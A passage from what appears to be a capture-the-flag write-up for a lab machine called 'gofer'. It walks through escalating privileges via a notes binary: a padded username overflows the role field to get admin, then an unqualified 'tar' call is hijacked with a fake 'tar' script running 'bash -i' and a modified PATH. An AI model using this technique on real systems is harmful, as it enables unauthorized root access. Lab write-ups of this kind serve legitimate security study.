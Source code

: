 Now it says I have admin:

```

Your choice: 2

Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin
Role: admin

```

And if I enter `8`, it says “Access granted!” before erroring out:

```

Your choice: 8

Access granted!
tar: Removing leading `/' from member names
/opt/notes/

```

`/opt/notes/` is empty.

### Exploit tar

#### Identify tar Command

The error seems to have an issue with `tar`. I’ll run `strings` on the binary to see if the command is in there, and it is:

```

tbuckley@gofer:~$ strings /usr/local/bin/notes | grep 'tar '
tar -czvf /root/backups/backup_notes.tar.gz /opt/notes

```

#### Path Hijack

The good news for me is that it is calling `tar` without a full path, which means I can likely hijack `tar`.

I’ll go into `/dev/shm` and create my own `tar` file:

```

#!/bin/bash

bash -i

```

This literally just drops into an interactive Bash shell. I’ll make sure to make `tar` executable.

I’ll update my `$PATH` variable for my current session:
